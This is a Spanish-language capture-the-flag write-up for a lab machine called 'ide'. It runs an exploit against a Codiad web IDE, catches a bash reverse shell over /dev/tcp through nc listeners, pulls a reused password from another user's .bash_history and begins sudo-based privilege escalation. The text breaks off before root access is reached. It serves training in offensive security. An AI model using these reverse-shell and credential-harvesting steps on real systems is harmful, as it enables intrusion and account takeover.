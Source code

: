 Hasta ahora todo bien, ¡ejecutemos el exploit!

```bash
╰─ lanfran@parrot ❯ python3 exp.py http://10.10.233.193:62337/ john [REDACTADO] 10.9.4.36 1337 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/10.9.4.36/1338 0>&1 2>&1"' | nc -lnvp 1337
nc -lnvp 1338
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y  
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...
```
Después de ejecutar los comandos que sugiere el exploit, ¡finalmente tenemos un pie en la máquina!
```bash
╰─ lanfran@parrot ❯ nc -lnvp 1338
listening on [any] 1338 ...
connect to [10.9.4.36] from (UNKNOWN) [10.10.233.193] 46490
bash: cannot set terminal process group (866): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Pero... no podemos leer la flag del usuario, porque necesitamos escalar al usuario `drac` para leer la bandera ...

Así que, al indagar en la máquina, encontramos que el usuario `drac` tiene el `.bash_history` con algo de información en su interior.
```bash
www-data@ide:/home/drac$ cat .bash_history 
mysql -u drac -p '[REDACTADO]'
```
¡Encontramos una contraseña! Quizás este usuario reutilice las contraseñas...
```bash
www-data@ide:/home/drac$ su drac 
Password: 
drac@ide:~$ cat /home/drac/user.txt 
0[REDACTADO]6
```
¡SÍ! ¡Lo hicimos! ¡Ahora finalmente leamos la flag del usuario!

## Root

¡Ahora tenemos que escalar a root!

Para esto, hacemos el primer intento como en cada máquina `sudo -l` y podemos reiniciar el servicio `vsftpd`.
```bash
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```
¡Así que quizás podamos explotar este servicio si podemos editar el archivo `vsftpd.service`!
